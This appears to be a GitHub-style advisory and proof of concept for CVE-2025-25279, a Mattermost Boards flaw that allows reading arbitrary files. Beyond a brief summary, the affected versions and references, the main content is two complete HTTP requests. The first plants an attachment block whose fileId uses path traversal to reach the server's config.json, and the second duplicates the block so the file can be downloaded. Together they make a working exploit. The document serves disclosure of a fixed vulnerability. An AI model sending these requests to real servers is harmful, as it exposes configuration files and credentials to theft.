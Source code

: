 # Security Advisory MMSA-2025-00430 / CVE-2025-25279

## Summary
After uploading a file to Mattermost Boards, when the fileId parameter is modified and the board is copied, the file now points to and downloads the target file specified in the parameter.


**Affected Versions:** Mattermost instances with Boards enabled
**CVE:** CVE-2025-25279

## Description

Mattermost versions 10.4.x <= 10.4.1, 9.11.x <= 9.11.7, 10.3.x <= 10.3.2, 10.2.x <= 10.2.2 fail to properly validate board blocks when importing boards which allows an attacker could read any arbitrary file on the system via importing and exporting a specially crafted import archive in Boards.



## Screenshots

![Screenshot 1](https://github.com/numanturle/CVE-2025-25279/blob/main/img/s1.png?raw=true)
![Screenshot 2](https://github.com/numanturle/CVE-2025-25279/blob/main/img/s2.png?raw=true)
![Screenshot 3](https://github.com/numanturle/CVE-2025-25279/blob/main/img/s3.png?raw=true)
![Screenshot 4](https://github.com/numanturle/CVE-2025-25279/blob/main/img/s4.png?raw=true)


```
POST /plugins/focalboard/api/v2/boards/bqgcxem5wo3ncfxkbfn5rkawxcr/blocks HTTP/1.1
Host: localhost:8065
Content-Length: 403
Authorization: 
Accept-Language: en-US,en;q=0.9
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0
Accept: application/json
Content-Type: application/json
Origin: http://localhost:8065
Connection: keep-alive

[{"id":"7gni7t3q3gj6unkq49mpb3xzdre","schema":1,"boardId":"bqgcxem5wo3ncfxkbfn5rkawxcr","parentId":"crc1qdykm1pg4mbfpct45qnyorw","createdBy":"","modifiedBy":"","type":"attachment","fields":{"fileId":"../../../../../../../mattermost/config/config.json"},"title":"CVE-2025-25279.txt","createAt":1740423098470,"updateAt":1740423098470,"deleteAt":0,"limited":false,"isUploading":false,"uploadingPercent":0}]
```

```
POST /plugins/focalboard/api/v2/boards/bqgcxem5wo3ncfxkbfn5rkawxcr/blocks/crc1qdykm1pg4mbfpct45qnyorw/duplicate?asTemplate=false HTTP/1.1
Host: localhost:8065
Content-Length: 0
Authorization: 
Accept-Language: en-US,en;q=0.9
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 
Accept: application/json
Content-Type: application/json
Origin: http://localhost:8065
Connection: keep-alive


```


## References

- [Mattermost Security Updates](https://mattermost.com/security-updates/)
- [CWE-200: Information Exposure](https://cwe.mitre.org/data/definitions/200.html)
- [CVE-2025-25279](https://nvd.nist.gov/vuln/detail/CVE-2025-25279)
